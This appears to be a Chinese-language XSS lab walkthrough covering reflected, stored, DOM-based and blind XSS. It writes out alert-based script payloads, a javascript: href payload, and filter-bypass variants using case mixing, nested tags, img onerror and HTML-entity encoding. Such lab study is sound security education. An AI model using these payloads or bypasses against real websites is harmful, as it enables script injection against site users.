 反射性，一次性的，刷新页面之后弹窗消失。GET是以url方式提交数据的。

```javascript
<script>alert(666)</script>
```

![image-20230725194934531](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230725194934531.png)

### 反射型XSS(post)

 POST是以表单方式在请求体里面提交

![image-20230725195339871](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230725195339871.png)

### 存储型XSS

存储型和反射型漏洞形成的原因是一样的，而存储型xss可以将脚本保存到后台，造成更大的伤害，也成为永久永久型xss。

永久型的xss，刷新页面后弹窗依旧存在

### DOM型xss

这里是标签的href属性，直接javascript伪协议

```
javascript:alert(6)
```

出现弹窗

### DOM型xss-x

查看源码

![image-20230726151924912](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230726151924912.png)

发现还是href属性，构造一个闭合或使用javascript伪协议

### XSS盲打

我们直接在输入框里插js代码，后端有漏洞就就可以`x`成功

```
<script>alert("xss")</script>
```

登录后台账号，发现被弹

![image-20230729132816754](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230729132816754.png)

### XSS之过滤

绕过方法

前端有过滤的，可以直接修改前端代码

```
//大小写绕过
<sCRipt>aLErt("xss")<?/ScRipT>
//拼凑绕过
<scri <script >pt>alert("xss")</scri </script> pt>
//编码绕过
<img src=c onerror="alert("xss")"/> //img标签
//html编码
<img src=c onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;"> 
```
